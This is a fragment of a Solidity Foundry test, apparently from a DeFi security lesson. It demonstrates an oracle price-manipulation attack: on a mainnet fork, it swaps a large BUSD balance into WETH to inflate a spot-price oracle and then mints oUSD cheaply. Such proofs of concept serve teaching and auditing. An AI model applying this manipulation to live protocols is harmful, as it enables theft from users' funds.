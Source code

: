 ```solidity
        vm.createSelectFork(MAINNET_RPC_URL, 16060405);
        router = IUniswapV2Router(ROUTER);
        ousd = new oUSD();
    }

    //forge test --match-test  testOracleAttack  -vv
    function testOracleAttack() public {
        // Attack the oracle
        // 0. Get the price before manipulating the oracle
        uint256 priceBefore = ousd.getPrice();
        console.log("1. ETH Price (before attack): %s", priceBefore); 
        // Give yourself 1,000,000 BUSD
        uint busdAmount = 1_000_000 * 10e18;
        deal(BUSD, alice, busdAmount);
        // 2. Buy WETH with BUSD to manipulate the oracle
        vm.prank(alice);
        busd.transfer(address(this), busdAmount);
        swapBUSDtoWETH(busdAmount, 1);
        console.log("2. Swap 1,000,000 BUSD to WETH to manipulate the oracle");
        // 3. Get the price after manipulating the oracle
        uint256 priceAfter = ousd.getPrice();
        console.log("3. ETH price (after attack): %s", priceAfter); 
        // 4. Mint oUSD
        ousd.swap{value: 1 ether}();
        console.log("4. Minted %s oUSD with 1 ETH (after attack)", ousd.balanceOf(address(this))/10e18); 
    }

    // Swap BUSD to WETH
    function swapBUSDtoWETH(uint amountIn, uint amountOutMin)
        public
        returns (uint amountOut)
    {   
        busd.approve(address(router), amountIn);

        address[] memory path;
        path = new address[](2);
        path[0] = BUSD;
        path[1] = WETH;

        uint[] memory amounts = router.swapExactTokensForTokens(
            amountIn,
            amountOutMin,
            path,
            alice,
            block.timestamp
        );

        // amounts[0] = BUSD amount, amounts[1] = WETH amount
        return amounts[1];
    }
}
```

